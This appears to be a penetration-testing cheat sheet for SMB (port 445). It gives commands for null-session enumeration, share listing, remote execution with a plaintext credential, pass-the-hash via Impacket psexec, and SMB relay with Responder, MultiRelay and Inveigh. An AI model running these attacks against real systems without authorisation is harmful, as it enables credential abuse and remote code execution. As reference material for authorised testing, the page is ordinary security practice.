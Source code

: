 # 445 - SMB

## Check for null sessions

```
crackmapexec smb 192.168.120.0/24 10.0.0.0/23 -u '' -p ''
```

```
enum4linux <ip>
```

WinscanX - windows tool: [https://packetstormsecurity.com/files/84199/WinScanX-Password-Utility.html](https://packetstormsecurity.com/files/84199/WinScanX-Password-Utility.html)

## Connecting to SMB Shares

### List SMB shares

```
smbclient -L [IP]
```

### Connect to smb share

```
smbclient \\\\[ip]\\[share name]
```

`rpcclient -U "" -N [ip]`

`enum4linux -a <ip>`

```
/usr/bin/winexe -U mad01/user123%abcABC1234 //172.18.2.50 ipconfig
```

### Using psexec from Impacket

```
/usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a40cad43aedd6bdddddddddf45 localadmin@192.168.93.19SMB Relay
```

### MultiRelay.py

For SMB Relay to be possible, you must turn off SMB and HTTP within the responder config file (you can change it back when you have finished)

Set responder.conf to:

![](<../../.gitbook/assets/image (5) (1).png>)

Then run responder:

```
sudo python3.9 /usr/share/responder/Responder.py -I eth0 -w -F -v
```

Then run the following in another terminal session

```
sudo python3.9 /usr/share/responder/tools/MultiRelay.py -t <target_IP> -u ALL
```

### Inveigh Relay

Session attack requires SMB tools from Invoke-TheHash

{% embed url="https://github.com/Kevin-Robertson/Invoke-TheHash" %}

```
Invoke-InveighRelay -ConsoleOutput Y -Target 10.0.2.110 -Command "...."
```

## Create an SMB Share

```
sudo impacket-smbserver share . -smb2support
```

## Scan for common vulns

`nmap --script smb-vuln* -p 139,445`

